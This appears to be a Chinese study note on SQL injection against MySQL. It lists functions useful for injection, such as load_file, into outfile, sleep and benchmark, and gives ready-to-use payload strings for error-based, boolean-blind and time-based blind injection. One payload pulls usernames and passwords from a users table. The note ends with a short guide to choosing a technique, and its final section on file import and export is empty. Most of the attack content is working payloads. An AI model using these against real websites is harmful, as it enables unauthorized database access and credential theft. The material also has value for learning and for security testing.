 rand()   &nbsp;&nbsp; &nbsp;&nbsp;  返回0-1 之间的随机浮点数

load_file()   &nbsp;&nbsp; &nbsp;&nbsp; 读取文件，并返回文件内容作为一个字符串

into outfile  &nbsp;&nbsp; &nbsp;&nbsp; 写入文件

sleep()
if(ture,1,0)  &nbsp;&nbsp; &nbsp;&nbsp;   if判断

find_in_set()   &nbsp;&nbsp; &nbsp;&nbsp;  返回字符串再字符串列表中的位置

benchmark()   &nbsp;&nbsp; &nbsp;&nbsp;  指定语句执行的次数

name_const() &nbsp;&nbsp; &nbsp;&nbsp;   返回表作为结果

## ***二、联合注入***
union

## ***三、报错注入***
#### 1、group by 重复键冲突
`?id=1' and (select 1 from (select count(*),concat((select concat(username,password) from users limit 1,1),floor(rand()*2))x from information_schema.tables group by x)a) --+`

#### 2、XPATH报错
	extractalue()
	?id=1 and extractalue(1,concat('^',(select version()),'^')) --+  

	updatexml()
	?id=1 and updatexml(1,concat('^',(select database()),'^'),1) --+

## ***四、布尔盲注***
利用·页面返回状态的布尔类型状态，正常或者不正常

常用函数： length()     ascii()     substr()    

实例： ?id=1 and ascii(substr(database(),1,1))>3 --+

## ***五、延时注入***
利用sleep() 函数的延时性，以时间作为判断条件

常用函数： length()     ascii()     substr()    if()   sleep()

实例：   ?is=1 and if((length(database())>3),sleep(5),1) --+

ps:
>是否有回显    	 联合查询

>是否有报错         	 报错注入

>是否有布尔类型状态   布尔盲注

>最后 		 延时注入


## ***六、sql对文件导入导出***

